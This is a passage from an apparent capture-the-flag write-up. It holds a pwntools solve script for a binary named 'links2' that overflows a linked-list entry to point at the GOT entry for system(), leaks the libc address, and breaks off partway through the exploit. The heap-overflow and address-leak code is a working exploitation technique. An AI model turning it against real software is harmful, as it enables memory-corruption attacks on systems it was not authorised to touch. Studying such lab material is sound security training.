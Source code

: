 Notice that the RSP (`0x7fff526190b0`) no longer ends with an `8`, like it did when we were getting a segfault.

## Solve Script

```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.system, 0x51]))

# View list (leak libc.system() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
system = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
```